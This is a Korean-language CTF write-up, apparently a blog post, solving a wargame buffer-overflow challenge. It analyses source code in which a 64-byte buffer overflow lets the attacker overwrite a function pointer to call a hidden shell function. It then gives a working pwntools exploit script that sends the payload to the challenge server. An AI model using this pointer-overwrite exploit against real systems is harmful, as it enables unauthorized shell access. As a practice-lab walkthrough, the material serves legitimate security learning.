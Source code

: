 > 이번 시간에는 [NT-SecurityChallenges](https://nicetop.dyhs.kr/)의 [Change Address Function](https://nicetop.dyhs.kr/wargame/fCCNa8cr5OeOhGwp2QV7) 문제를 풀어보도록 하겠다.

# 문제 분석
문제의 설명에는 중요한 힌트가 있는 경우가 많으니 한 번 읽어보자.
![](https://velog.velcdn.com/images/k_cr4ne/post/579804ae-ae4e-4358-992d-66d598bf269a/image.png)
~~없는 경우도 있는 것 같다.~~ 문제 제목이 Change Address Function이니 함수 주소 조작이 힌트가 될 것 같다.

# 파일 분석
문제 파일을 분석해보자.
![](https://velog.velcdn.com/images/k_cr4ne/post/5d42becb-8da0-4ad0-8297-5594c446b1fa/image.png)
문제에서 bof_twist와 bof_twist.c 파일을 제공한다.
이 중에서 bof_twist.c 코드를 보면 아래와 같다.
![](https://velog.velcdn.com/images/k_cr4ne/post/6ad87c21-9b9c-4245-adaa-0c398a02f69c/image.png)
> 1. hidden_shell, dummy_func, vulnerable, main 함수가 있다.
2. main에서 vulnerable을 호출한다.
3. vulnerable에서는 64byte의 buf를 만들고 func_ptr이 dummy_func를 호출하도록 만든다.
4. 사용자로부터 입력을 받지만 buf 크기보다 더 많은 입력을 받기에 BoF(Buffer OverFlow)가 발생한다.
5. buf의 값을 if문을 통해서 검사하지만 익스플로잇에 영향이 없고 이후printf로 문자열 출력, func_ptr을 호출한다.

### 익스플로잇 계획
> 1. hidden_shell의 주소를 구한다.
2. 더미 값(64byte)를 채워서 BoF를 발생시킨다.
3. 더미 값 뒤에 hidden_shell의 주소를 넣어 func_ptr이 dummy_func에서 hidden_shell을 가리키도록 한다.

위의 계획대로 하면 func_ptr에서 hidden_shell을 실행하기에 shell이 따질 것이고 [NT-SecurityChallenges](https://nicetop.dyhs.kr)에서 친절하게 [FLAG 파일의 경로](https://nicetop.dyhs.kr/community/YabH9yK8qhqYWEeUvV1l)를 알려주었기에 공지를 보고 FLAG를 획득해보자.

# 익스플로잇
![](https://velog.velcdn.com/images/k_cr4ne/post/ab2a58de-7781-4644-be06-b2f056554793/image.png)
gdb를 활용해 hidden_shell 함수의 주소를 가져오고 아래의 익스플로잇 코드처럼 작성하면 익스플로잇 할 수 있다.
``` py
from pwn import * # pwntools 라이브러리 불러오기

p = remote('nicetop-pwn-server.dyhs.kr', 1001) # 서버와 연결

hidden = 0x080491c6 # hidden_shell 주소

payload = b'A'*64 # 더미 값
payload += p32(hidden) # hidden_shell의 주소를 패킹

p.sendline(payload) # 페이로드 보내기

p.interactive()
```
![](https://velog.velcdn.com/images/k_cr4ne/post/968828f1-ddab-4155-89a9-464c711e8d15/image.png)
실행 해보면 익스플로잇이 되는 것을 알 수 있다.

# 후기
> [NT-SecurityChallenges](https://nicetop.dyhs.kr) 많은 이용 바란다.
